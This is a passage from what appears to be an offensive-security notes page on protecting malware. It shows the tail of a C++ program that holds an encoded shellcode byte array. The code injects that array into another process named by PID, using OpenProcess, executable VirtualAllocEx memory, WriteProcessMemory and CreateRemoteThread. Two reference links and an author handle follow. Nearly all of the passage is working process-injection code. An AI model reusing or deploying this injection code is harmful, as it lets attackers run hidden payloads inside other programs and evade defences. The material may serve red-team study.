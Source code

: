 ```cpp
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
}

```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://blog.xpnsec.com/protecting-your-malware/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setprocessmitigationpolicy" %}
@spotheplanet
